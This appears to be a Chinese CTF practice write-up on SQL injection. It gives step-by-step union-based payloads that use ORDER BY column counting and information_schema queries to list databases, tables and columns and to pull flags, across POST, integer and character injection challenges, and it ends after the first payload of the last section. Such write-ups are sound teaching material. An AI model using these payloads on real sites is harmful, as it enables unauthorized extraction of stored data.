 ```yaml
---
uuid: 6d1ec04e-eb46-2803-7217-91f392ee21d0
title: SQL注入
date: 2022-02-04 19:27:40
tags: 
      - SQL
      - Web
      - CTF
categories: 
      - [Web]
      - [CTF]
---
```


**关于SQL的刷题记录**
# SQL注入

<!--more-->

![image-20220204192950568](https://img-blog.csdnimg.cn/img_convert/f1ffa70adef3130ddf24b0e19484597f.png)

首先查看源码发现name为id，并且是post传参

![image-20220204193042721](https://img-blog.csdnimg.cn/img_convert/a9e5b7fd180fd339add29d1a494e6299.png)

用hackbar查查有几个数据，发现只有三个

测试发现当post内容加`‘`时，内容就显示不出来

![image-20220204193404946](https://img-blog.csdnimg.cn/img_convert/4e578d6f3c727fa95cfdb3516fef3b71.png)

而加`’#`，发现又正常显示

![image-20220204193459549](https://img-blog.csdnimg.cn/img_convert/a0e1c557c7d6ae4720e5a2a0de721995.png)

这个题完全就是考察SQL注入，这个题目前来看有两种解决方法，在这里记录一下。

## 第一种解决方法

首先先说点知识，1、MySql在5.0版本后新增一个叫`information_schema`的虚拟数据库，其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。利用这个可以获取表名，列名等
2、查询中用到的`group_concat()`函数是要把查询的内容联合到一起方便查看的，这样就不需要limit 0,1一个一个判断了
先查个字段，因为有三个数据，就用4吧`order by 4#`

![image-20220204193859153](https://img-blog.csdnimg.cn/img_convert/62cdc02c1da1138cbe7d60e20b964406.png)

显示依然正常，那再试试5

![image-20220204193934206](https://img-blog.csdnimg.cn/img_convert/445c63257452df78a065a1fda32eba15.png)

这个时候发现没有返回值，所以可以确定字段就是四个，接下来，爆库名`id=-1' union select 1，2，3，4#`，把id变为-1是因为如果id有回显的话，我们查询的内容就不能显示了，所以要换一个id没有内容的值

![image-20220204194415205](https://img-blog.csdnimg.cn/img_convert/3bc76f82edb6870a2ca2d964f10be9ce.png)

这样就知道每一个数值所在的位置，然后开始爆库，`id=-1' union select 1,database(),user(),version()#`,这个有必要说明一下，database（）是查询当前数据库名，user（）是为了查询当前用户名，version（）是为了查询数据库版本

![image-20220204194828472](https://img-blog.csdnimg.cn/img_convert/a2d95a6cab964cfb08e73e4e3ff4e7f5.png)

然后爆表名，这个是固定格式，`id=-1' union select 1,group_concat(table_name),user(),version() from information_schema.tables where table_schema=database()#`,得到两个表名fl4g，sc

![image-20220204200949037](https://img-blog.csdnimg.cn/img_convert/4667d7a2fd4633e35420005775316a63.png)

再然后爆列明，`id=-1' union select 1,group_concat(column_name),user(),version() from information_schema.columns where table_name='fl4g'#`

![image-20220204201124534](https://img-blog.csdnimg.cn/img_convert/a5aa4f619736882f29fe0cf3972067d2.png)

得到列名skctf_flag

> 表明单引号要用英文的''，当然不加也可以，但是表名要用十六进制

最后一步就是查询想要的数据了

![image-20220204201353733](https://img-blog.csdnimg.cn/img_convert/a48620af1763c15138bda9d8a06354b7.png)

得到flag

## 第二种解决方法

sqlmap跑，目前还在了解，学会了再更！！

# 整数型注入

![image-20220215171031084](https://img-blog.csdnimg.cn/img_convert/d7379c21e5b2e9065425123e62b32895.png)

当输入1时发现有回显，并且url也发生变化

![image-20220215171141632](https://img-blog.csdnimg.cn/img_convert/5072482b3a6aae1cb78915199ddb0f3d.png)

使用order by语句查询字段数

![image-20220215171256788](https://img-blog.csdnimg.cn/img_convert/1c3d4a8429e8c5aa49636ff202bfe09f.png)

![image-20220215171320208](https://img-blog.csdnimg.cn/img_convert/ae016b3da50d2e14dc650e2bc35defe5.png)

当输入3的时候发现没有回显，说明只有俩个字段数据。

使用[union](https://so.csdn.net/so/search?q=union&spm=1001.2101.3001.7020)联合查询检测信息回显位置

```javascript
id=1 union select 1,2
```

![image-20220215171433860](https://img-blog.csdnimg.cn/img_convert/572dfa904d048d2b681920aa36232f0b.png)

发现并不可以，由于页面只允许返回一行内容，可以修改参数为-1，使得需要查询的数据回显。![image-20220215171608940](https://img-blog.csdnimg.cn/img_convert/6646d4d40d422a8f45f417b4646e9bff.png)

输入一下来获取当前数据库名


```
id=-1 union select 1,database()
```

![image-20220215171752124](https://img-blog.csdnimg.cn/img_convert/ab60b7ccbe913e75ade17050d06b68c4.png)

输入一下获取所有数据库名

```
id=-1 union select 1,group_concat(schema_name)from information_schema.schemata
```

![image-20220215171840187](https://img-blog.csdnimg.cn/img_convert/84d84f9386583aed2220619a21378bdf.png)

输入一下查询数据库sqli表名

```
id=-1 union select 1,group_concat(table_name)from information_schema.tables where table_schema='sqli'
```

![image-20220215171942844](https://img-blog.csdnimg.cn/img_convert/335760043d8e946a7423cadd1e0dec61.png)

输入以下获取flag的所有字段名

```
id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'

```

![image-20220215172155435](https://img-blog.csdnimg.cn/img_convert/7e55d70f1fd3fb4b5d4fe6cff9a1d51a.png)

输入以下获取指定数据库的表的列的内容

```
id=-1 union select 1,group_concat(flag) from sqli.flag
```

![image-20220215172245055](https://img-blog.csdnimg.cn/img_convert/ba62495591bd481478c051696840c425.png)

得到flag！

# 字符型注入

![image-20220215172440795](https://img-blog.csdnimg.cn/img_convert/08817b1d06ad9ec837ab7fafcc10344c.png)

测试后发现和上边的那个整形注入一样，只有两个数据。回显只有两处：ID和Data。

联合查询

```
123’ union select database(),2 #
```


